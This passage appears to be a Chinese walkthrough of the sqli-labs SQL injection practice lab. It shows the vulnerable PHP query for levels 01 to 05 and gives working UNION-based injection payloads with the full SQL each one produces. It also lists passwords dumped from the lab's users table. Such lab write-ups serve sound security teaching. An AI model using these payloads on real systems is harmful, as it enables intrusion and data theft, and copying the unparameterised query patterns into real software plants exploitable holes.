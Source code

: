 + 出 password 字段`Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4`


同理可以出其他数据，不做演示

### 02-Error Based-Integer based

同01 只要去掉-1后面的`'`

### 03-Error Based-Single quotes with twist

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

加了个`()` 我们闭合`(`,注释`)`

`-1') union select 1,database(),3;--+`

完整语句: 

```sql 
SELECT * FROM users WHERE id=('-1') union select 1,database(),3;-- ') LIMIT 0,1
```

其他同理

### 04-Error Based-Double quotes

```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

闭合`左"` 和`(`，注释`右"`和`)`

`-1") union select 1,database(),3;--+`

完整语句：

```sql
SELECT * FROM users WHERE id=("-1") union select 1,database(),3;-- " ) LIMIT 0,1
```

### 05-Double injections-Single quotes

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
	if($row) {
        ...
        echo 'You are in...........';
        ...
  	} else {
        ...
        print_r(mysql_error());
        ...
	}
```

